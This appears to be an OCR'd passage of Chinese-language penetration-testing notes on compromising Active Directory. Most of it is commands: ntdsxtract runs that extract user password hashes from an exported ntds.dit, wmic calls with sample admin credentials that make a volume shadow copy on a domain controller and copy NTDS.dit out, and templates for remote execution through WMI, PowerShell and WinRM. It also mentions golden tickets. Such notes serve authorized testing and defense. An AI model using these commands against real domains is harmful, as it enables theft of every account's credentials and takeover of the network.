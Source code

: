 	        root@kali2:~/Desktop/ntdsxtract-master# python dsusers.py /root/Desktop/temp/ntds.dit.export/datatable.3 /root/Desktop/temp/ntds.dit.export/link_table.5 output --syshive /root/Desktop/temp/registry/SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
	        root@kali2:~/Desktop/ntdsxtract-master# python dscomputers.py /root/Desktop/temp/ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
            ![mimikatz-lsa](域渗透相关/libesedb__ntdsxtract__ntds.dit.png)
    6. 可创建和使用GOLDEN TICKET
    7. 卷影复制(VSS)
        ntds.dit我们是没法直接进行复制拷贝的，会提示文件已被占用，这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
        1.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
        2.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID/Windows/NTDS/NTDS.dit C:/windows/temp/NTDS.dit 2>&1"
  
    8. 其他 - 转储活动目录数据库(ntds.dit)凭证的方法总结
		How Attackers Dump Active Directory Database Credentials
			https://adsecurity.org/?p=2398
		[译]转储活动目录数据库凭证的方法总结 
			http://drops.xmd5.com/static/drops/pentesting-12020.html
			之前两篇关于如何转储 AD 数据库凭证的文章： 
				a. 攻击者如何从一个域控制器中读取活动目录数据库(NTDS.DIT)(https://adsecurity.org/?p=451)
				b. 在 Active Directory 域中获得管理员权限的攻击方法(https://adsecurity.org/?p=2362  [译]https://xianzhi.aliyun.com/forum/topic/115)

	8-0x00 远程执行命令方式
		有几种不同的方式可以在域控制器上远程执行命令,假设它们已经有了相应的执行权限。最可靠的远程执行方法包括两种 PowerShell(利用 WinRM )和 WMI。

		WMI
		Wmic /node:COMPUTER/user:DOMAIN\USER /password:PASSWORD process call create "COMMAND"
			
		PowerShell (WMI)
		Invoke-WMIMethod -Class Win32_Process -Name Create –ArgumentList $COMMAND –ComputerName $COMPUTER -Credential $CRED
			
		WinRM
		winrs –r:COMPUTER COMMAND
			
		远程 PowerShell
		Invoke-Command –computername $COMPUTER -command { $COMMAND}
		New-PSSession -Name PSCOMPUTER –ComputerName $COMPUTER; Enter-PSSession -Name PSCOMPUTER
		